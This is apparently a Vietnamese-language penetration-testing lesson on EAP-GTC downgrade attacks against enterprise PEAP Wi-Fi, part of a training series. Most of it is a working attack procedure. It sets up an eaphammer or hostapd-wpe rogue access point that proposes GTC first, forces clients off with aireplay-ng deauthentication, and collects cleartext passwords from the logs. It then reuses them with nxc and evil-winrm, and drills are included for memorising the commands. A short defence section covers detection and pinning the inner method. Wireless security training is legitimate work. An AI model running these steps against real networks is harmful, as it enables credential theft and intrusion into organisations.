

> **Prerequisites**: [[04-evil-twin-rogue-radius-peap|04. Evil Twin: Rogue RADIUS + PEAP Hash Capture]]
> **Objectives**:
> - Hiểu cơ chế EAP method negotiation và tại sao downgrade có thể xảy ra
> - Thực hiện EAP-GTC downgrade để capture cleartext password
> - Cấu hình eap_user file để ưu tiên GTC trong negotiation
> - Phân biệt khi nào dùng GTC attack thay vì MSCHAPv2 capture

---

## Điều kiện khai thác

> [!note] Điều kiện bắt buộc
> - PEAP network đang dùng MSCHAPv2 hoặc cho phép nhiều inner methods
> - Client **không enforce specific inner EAP method** (misconfiguration phổ biến)
> - Rogue RADIUS server propose GTC trước MSCHAPv2 trong negotiation
> - Client chấp nhận cert của Rogue AP (giống Evil Twin attack)

> [!tip] Khi nào dùng GTC thay vì MSCHAPv2?
> Nếu hash crack thất bại (mật khẩu quá phức tạp), GTC downgrade cho phép capture **cleartext password** mà không cần crack. Đây là kỹ thuật đặc biệt hiệu quả với tài khoản có strong password.

---

## Cơ chế tấn công

### EAP Method Negotiation

Trong PEAP, inner EAP method được negotiated giữa client và RADIUS server. Protocol không enforce phải dùng method nào — server **propose** method và client **accept** hoặc **NAK** (từ chối và đề xuất method khác).

**Normal flow (legit RADIUS)**:
```
RADIUS → Client: EAP-Request (MSCHAPv2)
Client → RADIUS: EAP-Response (MSCHAPv2) -- client accept
```

**GTC Downgrade flow (Rogue RADIUS)**:
```
Rogue RADIUS → Client: EAP-Request (GTC)   -- propose GTC trước
Client → Rogue RADIUS: ???
```

**Kết quả phụ thuộc vào client configuration**:

| Client Config | Response | Attack Result |
|--------------|---------|--------------|
| Accept bất kỳ inner method | Accept GTC → gửi cleartext | **SUCCESS — cleartext captured** |
| Chỉ accept MSCHAPv2 | NAK GTC → request MSCHAPv2 | Fail — phải dùng Lesson 04 |
| Chỉ accept EAP-TLS | NAK → disconnect | Fail |

**Insight**: Nhiều mobile devices (Android, iOS) và poorly configured Windows supplicants accept bất kỳ inner method nào server propose. Đây là misconfiguration rất phổ biến trong enterprise.

### GTC — Generic Token Card

**EAP-GTC** ban đầu được thiết kế cho one-time passwords (OTP) và smart cards. Protocol cực kỳ đơn giản: server gửi một "challenge string" (thường là "Password:"), client gửi cleartext response.

```
[Inside TLS Tunnel]
Rogue RADIUS → Client: EAP-Request/GTC ("Password:")
Client       → Rogue RADIUS: EAP-Response/GTC ("Password123!")  ← cleartext!
```

**Đây là nguyên nhân tại sao GTC downgrade là nguy hiểm nhất**: Không có hash để crack — password ở dạng plaintext ngay lập tức.

---

## Quy trình tấn công

**Môi trường giả định**: Target PEAP network "CorpWifi", đã hoàn thành recon từ Lesson 03.

**Bước 1 — Cấu hình eap_user file với GTC priority**

EAPHammer sử dụng `eap_user` file để kiểm soát EAP method nào được propose. Cần đặt GTC lên đầu:

```bash
# Xem eap_user file mặc định
cat /usr/share/eaphammer/config/eap_user

# Tạo custom eap_user với GTC priority:
cat > /tmp/gtc_eap_user << 'EOF'
# Phase 1 users
* PEAP,TTLS,TLS,MD5,GTC

# Phase 2 users — GTC FIRST để force downgrade
"t" GTC,MSCHAPV2,TTLS-MSCHAPV2,MD5,TTLS-PAP,TTLS-CHAP,TTLS-MSCHAP
"1234test" [2]
EOF
```

**Bước 2 — Launch EAPHammer với GTC negotiation**

EAPHammer có built-in GTC downgrade flag:

```bash
./eaphammer \
    --bssid A0:B1:C2:D3:E4:F5 \
    --essid CorpWifi \
    --channel 6 \
    --wpa 2 \
    --auth peap \
    --interface wlan0 \
    --creds \
    --negotiate gtc
```

> **Expected output** khi GTC downgrade thành công:
> ```
> [*] GTC Downgrade successful!
> gtc: username: jdoe
>      password: Password123!     ← CLEARTEXT PASSWORD
> ```

**Bước 3 — Nếu cần manual hostapd-wpe với GTC**

```bash
# Edit eap_user file trong hostapd-wpe:
sudo nano /etc/hostapd-wpe/hostapd-wpe.eap_user

# Thêm/sửa Phase 2 section:
# "t" GTC,MSCHAPV2,TTLS-MSCHAPV2,MD5,GTC [2]
# Đảm bảo GTC xuất hiện TRƯỚC MSCHAPv2

# Restart hostapd-wpe:
sudo hostapd-wpe /etc/hostapd-wpe/hostapd-wpe.conf
```

**Bước 4 — Deauth clients để force re-connect**

```bash
sudo aireplay-ng -0 0 -a A0:B1:C2:D3:E4:F5 wlan1mon
```

**Bước 5 — Monitor output và collect cleartext**

```bash
# Nếu dùng hostapd-wpe, watch log:
tail -f /var/log/syslog | grep -E "gtc:|password:"

# Credentials xuất hiện ngay trong terminal eaphammer/hostapd-wpe output
# Không cần crack — dùng trực tiếp
```

**Bước 6 — Verify và proceed to post-exploitation**

```bash
nxc smb <DC_IP> -u jdoe -p 'Password123!'
# Xem Lesson 10 cho post-exploitation
```

---

## Biến thể & Bypass

### GTC Downgrade với Airgeddon

```bash
# Airgeddon có built-in GTC downgrade trong Evil Twin menu
# Options 5–9 trong Evil Twin attack menu
# Tương tự eaphammer nhưng GUI-friendly hơn
docker run -it --net=host --privileged v1s1t0r1sh3r3/airgeddon
```

### Khi Client NAK GTC (không accept)

Nếu client được cấu hình chặt chẽ và reject GTC, rogue RADIUS có thể:

1. **Cascade NAK**: Client NAK GTC → server propose MSCHAPv2 → fall back to Lesson 04 attack
2. **Force disconnect**: Rogue server reject client → không có credentials nhưng không crash
3. **Try EAP-TTLS/PAP**: Nếu network cho phép TTLS → xem Lesson 06

### autocrack — GTC + MSCHAPv2 Combo

EAPHammer có `--autocrack` flag — nếu GTC fail, tự động crack MSCHAPv2 hash ngay khi capture:

```bash
./eaphammer --bssid <BSSID> --essid <ESSID> --channel 6 \
    --auth peap --interface wlan0 --creds \
    --negotiate gtc \
    --autocrack \
    --wordlist /usr/share/wordlists/rockyou.txt
```

> **Mechanism**: Captured hash gửi ngay đến local cracking rig trước khi EAP response được gửi đến client. Nếu crack nhanh đủ → cracked credential được add vào eap_user file → client thực sự authenticated → ít suspicious hơn vì connection succeed.

---

## Cây quyết định



---

## Command Cheatsheet

**EAPHammer GTC Downgrade**

```bash
# Quick GTC downgrade
./eaphammer --bssid <BSSID> --essid <ESSID> --channel <CH> \
    --wpa 2 --auth peap --interface <IFACE> --creds --negotiate gtc

# Với autocrack fallback
./eaphammer --bssid <BSSID> --essid <ESSID> --channel <CH> \
    --auth peap --interface <IFACE> --creds \
    --negotiate gtc --autocrack --wordlist /usr/share/wordlists/rockyou.txt
```

**hostapd-wpe Manual GTC**

```bash
# eap_user Phase 2 entry (GTC trước MSCHAPv2):
# "t" GTC,MSCHAPV2,TTLS-MSCHAPV2,MD5,GTC [2]

# Monitor cleartext:
tail -f /var/log/hostapd-wpe.log | grep -i "gtc\|password"
```

**Verify Captured Cleartext**

```bash
nxc smb <DC_IP> -u <user> -p '<cleartext_password>'
nxc winrm <DC_IP> -u <user> -p '<cleartext_password>'
evil-winrm -i <IP> -u <user> -p '<cleartext_password>'
```

---

## Daily Drill

**Thời gian**: 15 phút/ngày trong 7 ngày đầu.

**Drill 1 — GTC flag memory**
Mục tiêu: thêm `--negotiate gtc` vào eaphammer command mà không cần lookup.

```bash
./eaphammer --bssid <B> --essid <E> --channel <C> --auth peap -i wlan0 --creds --negotiate gtc
```

Luyện cho đến khi: gõ toàn bộ command với GTC flag trong dưới 20 giây.

**Drill 2 — Identify GTC capture trong output**
Mục tiêu: scan eaphammer log và identify GTC cleartext ngay lập tức.

```
gtc: username: jdoe
     password: SuperSecret123!    ← nhận ra ngay đây là cleartext
```

Luyện cho đến khi: biết phân biệt GTC output (cleartext) với MSCHAPv2 output (hash).

**Drill 3 — Decision: GTC hay MSCHAPv2?**
Mục tiêu: nhìn client behavior và quyết định attack path trong 10 giây.

```
Scenario A: Client connects, GTC output xuất hiện → Use cleartext directly
Scenario B: Client connects, mschapv2 output xuất hiện → hashcat -m 5500
Scenario C: Client connects, ngay lập tức disconnect → NAK all methods, try different approach
```

Luyện cho đến khi: identify scenario ngay khi xem output, không cần suy nghĩ.

---

## Phát hiện & Phòng thủ

> [!warning] Detection Indicators
> **Unexpected inner EAP method**: Security monitoring trên client (MDM/endpoint agent) log inner EAP method; GTC thay vì MSCHAPv2 là red flag.
> **Authentication failure pattern**: Nhiều clients authenticate rồi ngay lập tức disconnect (vì Rogue RADIUS gửi Access-Reject sau khi capture creds).
> **Duplicate SSID**: Tương tự Lesson 04.

> [!note] Mitigation
> - **Pin inner EAP method** trong WiFi profile: Windows GPO → "PEAP inner method = MSCHAPv2 only" — client sẽ NAK bất kỳ proposal GTC nào
> - Enforce certificate validation (same as Lesson 04)
> - MDM (Mobile Device Management) — push WiFi profiles với inner method pinned cho tất cả mobile devices
> - iOS/Android: Dùng configuration profile enforce inner method và certificate CA

---

## Lab Thực hành

| Platform | Machine/Module | Tại sao phù hợp |
|----------|---------------|----------------|
| HTB Academy | **Attacking WPA/WPA2 Wi-Fi Networks** | GTC downgrade labs |
| Local VM | Kali + hostapd-wpe + Android/iOS victim | Test real device GTC behavior |
| Local VM | Kali + poorly configured Windows supplicant | Windows GTC accept behavior |
| HTB Academy | **Wi-Fi Penetration Testing Tools & Techniques** | EAPHammer GTC flags |

---

## Field Manual Entry

> [!abstract] EAP-GTC Downgrade — Quick Reference
> **Điều kiện**: PEAP network; client không enforce inner method; Rogue AP có thể propose GTC
> **Lệnh nhanh**: `./eaphammer -i wlan0 --essid <E> --channel <C> --auth peap --creds --negotiate gtc`
> **Look for**: `gtc: username: X password: Y` trong output (cleartext — no crack needed)
> **Fallback**: Nếu NAK → fall back to `--negotiate mschapv2` → hashcat -m 5500
> **Ref**: [[05-eap-downgrade-gtc-cleartext|05. EAP Downgrade: GTC Cleartext Capture]]
